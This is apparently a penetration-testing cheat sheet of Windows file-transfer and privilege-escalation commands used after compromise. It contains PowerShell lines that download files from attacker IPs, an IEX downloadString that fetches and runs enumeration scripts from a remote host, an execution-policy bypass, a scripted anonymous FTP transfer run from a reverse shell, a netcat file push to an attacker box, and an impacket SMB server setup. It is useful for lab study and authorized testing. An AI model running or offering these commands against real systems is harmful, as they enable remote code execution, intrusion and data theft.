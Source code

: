 ```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.1.111/file.exe','C:\Users\Public\file.exe')"

(New-Object System.Net.WebClient).DownloadFile("http://10.11.1.111/CLSID.list","C:\Users\Public\CLSID.list")
```

#### PowerShell Priv Esc

```powershell
powershell IEX (New-Object Net.WebClient).downloadString('https://192.168.49.221/jaws-enum.ps1')
powershell Invoke-AllChecks

powershell IEX (New-Object Net.WebClient).downloadString('https://192.168.49.221/Jaws.ps1')
powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename EnumOutput.txt
```

#### Windows Download from FTP

```powershell
# In reverse shell
echo open 10.11.1.111 > ftp.txt
echo USER anonymous >> ftp.txt
echo ftp >> ftp.txt
echo bin >> ftp.txt
echo GET file >> ftp.txt
echo bye >> ftp.txt

# Execute
ftp -v -n -s:ftp.txt
```

#### Windows NC File Transfer

```powershell
nc.exe -vn 192.168.119.131 8080 < win_rev.doc #From windows machine
nc -lvnp 8080 > win_rev.doc   #To kali box
```

#### Windows create SMB Server transfer files

```bash
# Attack machine
python3 /usr/share/impacket/impacket/examples/smbserver.py Lab "/root/labs/public/10.11.1.111"

	# Or SMB service
	# http://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html
	vim /etc/samba/smb.conf
		[global]
		workgroup = WORKGROUP
		server string = Samba Server %v
		netbios name = indishell-lab
		security = user
		map to guest = bad user
		name resolve order = bcast host
		dns proxy = no
		bind interfaces only = yes

		[ica]
		path = /var/www/html/pub
		writable = no
		guest ok = yes
		guest only = yes
		read only = yes
		directory mode = 0555
```